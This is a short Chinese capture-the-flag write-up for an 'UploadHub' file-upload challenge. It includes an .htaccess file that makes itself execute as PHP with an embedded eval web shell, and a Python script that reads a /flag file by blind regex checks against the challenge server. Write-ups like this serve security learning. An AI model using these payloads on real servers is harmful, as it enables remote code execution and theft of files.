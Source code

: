 ## UploadHub
apache配置文件设置了上传的目录不已php解析，但是管不到`.htaccess`文件，在`.htaccess`中设置以php解析`.htaccess`即可

![](attachments/Pasted%20image%2020240401170031.png)

```PHP
<FilesMatch .htaccess>
SetHandler application/x-httpd-php 
Require all granted  
php_flag engine on	
</FilesMatch>

php_value auto_prepend_file .htaccess
#<?php eval($_POST['cmd']);?>
```

好像会定期删文件直接写操作会比较好

![](attachments/Pasted%20image%2020240401171200.png)

这里记录Nu1L的做法
上传.htaccess

```
<If "file('/flag')=~ '/flag{/'">
ErrorDocument 404 "wupco"
</If>
```

盲注
```python
import requests
import string
import hashlib
ip = '74310c5695d734e667dc2250a05dcd29'//修改成自己的
print(ip)

def check(a):
    htaccess = '''
    <If "file('/flag')=~ /'''+a+'''/">
    ErrorDocument 404 "wupco6"
    </If>
    '''
    resp = requests.post("http://ec19713a-672c-4509-bc22-545487f35622.node3.buuoj.cn/index.php?id=69660",data={'submit': 'submit'}, files={'file': ('.htaccess',htaccess)} )
    a = requests.get("http://ec19713a-672c-4509-bc22-545487f35622.node3.buuoj.cn/upload/"+ip+"/a").text

    if "wupco" not in a:
        return False
    else:
        print(a)
        return True
flag = "flag{"
check(flag)

c = string.ascii_letters + string.digits + "\{\}"
for j in range(32):
    for i in c:
        print("checking: "+ flag+i)
        if check(flag+i):
            flag = flag+i
            print(flag)
            break
        else:
            continue

```
